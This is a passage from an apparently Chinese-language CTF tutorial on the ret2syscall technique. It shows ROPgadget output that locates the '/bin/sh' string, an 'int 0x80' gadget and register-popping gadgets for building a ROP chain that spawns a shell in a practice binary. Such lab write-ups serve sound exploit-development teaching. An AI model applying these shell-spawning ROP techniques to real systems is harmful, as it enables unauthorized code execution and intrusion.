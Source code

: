 选择第 24 行，正好可以将后面两个寄存器的值一起填充，地址为 0x0806eb90

```bash
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ ROPgadget --binary ret2syscall  --string '/bin/sh'
Strings information
============================================================
0x080be408 : /bin/sh
```

/bin/sh字符串的位置在0x080be408

```bash
qufeng@qufeng-virtual-machine:~/Desktop/pwn1$ ROPgadget --binary ret2syscall  --only 'int'
Gadgets information
============================================================
0x08049421 : int 0x80

Unique gadgets found: 1
```

int 0x80 的地址在 0x08049421

具体执行过程如下：

[![](assets/1701678439-65f1a2b5c4b33616fb2ca44a7cfc240b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231129203340-86b99264-8eb3-1.png)
